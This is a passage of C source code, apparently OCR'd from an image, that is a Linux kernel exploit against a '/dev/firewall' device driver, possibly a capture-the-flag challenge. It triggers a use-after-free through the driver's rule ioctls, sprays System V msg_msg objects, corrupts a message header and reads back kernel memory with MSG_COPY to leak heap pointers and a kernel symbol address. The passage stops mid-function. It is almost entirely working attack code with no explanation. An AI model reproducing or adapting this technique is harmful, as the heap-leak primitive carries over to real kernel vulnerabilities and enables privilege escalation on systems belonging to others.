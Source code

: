 ```c
    die("[!] Failed to open /dev/firewall");
  }
  qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid[0] < 0) {
    die("[!] Failed to msgget");
  }
  qid[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid[1] < 0) {
    die("[!] Failed to msgget");
  }
  printf("[+] qid[0] = %d, qid[1] = %d\n", qid[0], qid[1]);

  printf("[*] UAF prepare...\n");
  rule->idx = 0;
  rule->type = INBOUND;
  strcpy(rule->netmask, "255.255.255.255");
  strcpy(rule->ip, "127.0.0.1");

  add_rule(rule);
  dup_rule(rule);
  del_rule(rule);

  bzero(msg_buf, 0x2000);
  message->mtype = 1;
  memset(message->mtext, 0x41, 0x10);
  send_msg(qid[0], message, 0x40 - 0x30, 0);
  memset(message->mtext, 0x42, 0x10);
  send_msg(qid[1], message, 0x40 - 0x30, 0);
  send_msg(qid[1], message, 0x1ff8 - 0x30, 0);

  ((struct msg_msg *)rule)->m_list.next = (void *)0xAAAAAAAA;
  ((struct msg_msg *)rule)->m_list.prev = (void *)0xBBBBBBBB;
  ((struct msg_msg *)rule)->m_ts = 0x2000;
  ((struct msg_msg *)rule)->m_type = 1;
  rule->idx = 0;
  rule->type = OUTBOUND;
  strcpy(rule->ip, "000000000");
  ioctl(global_fd, EDIT_RULE, rule);

  void *dump = calloc(1, 0x2000);
  printf("[+] dump:\t%p\n", dump);
  ret = msgrcv(qid[0], dump, 0x2000, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
  if (ret < 0) {
    die("[!] Failed to recv message");
  }
  int i = 0;
  uint64_t val = 0;
  for (i = 0; i < 0x2000 / 8; i++) {
    val = ((uint64_t *)dump)[i];
    if ((val & 0xffffffff) == 0x42424242) {
      next = ((uint64_t *)dump)[i - 6];
      prev = ((uint64_t *)dump)[i - 5];
      // skip
      i++;
    }
    if ((val & 0xffff) == 0x1600) {
      dynamic_kobj_ktype = val;
    }
    if ((dynamic_kobj_ktype != 0) && (next != 0) && (prev != 0))
      break;
  }
  if (((int64_t)next >= 0) || ((int64_t)prev >= 0)) {
    printf("[!] Failed to get next and prev, try again\n");
```